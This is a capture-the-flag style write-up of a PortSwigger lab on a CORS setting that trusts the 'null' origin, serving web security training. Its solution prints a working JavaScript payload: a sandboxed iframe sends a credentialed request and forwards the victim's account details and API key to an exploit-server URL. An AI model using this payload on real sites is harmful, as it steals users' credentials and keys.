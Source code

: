 # [Lab: CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

## Lab

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

header of the request's response to `/accountDetails` contains `Access-Control-Allow-Credentials`.

## Solutions

craft a response at exploit-server:

- body:

  ```javascript
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://id.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
  location='https://exploit-id.exploit-server.net/log?key='+this.responseText;
  };
  </script>"></iframe>
  ```

use iframe sandbox to bypass whitelist null.
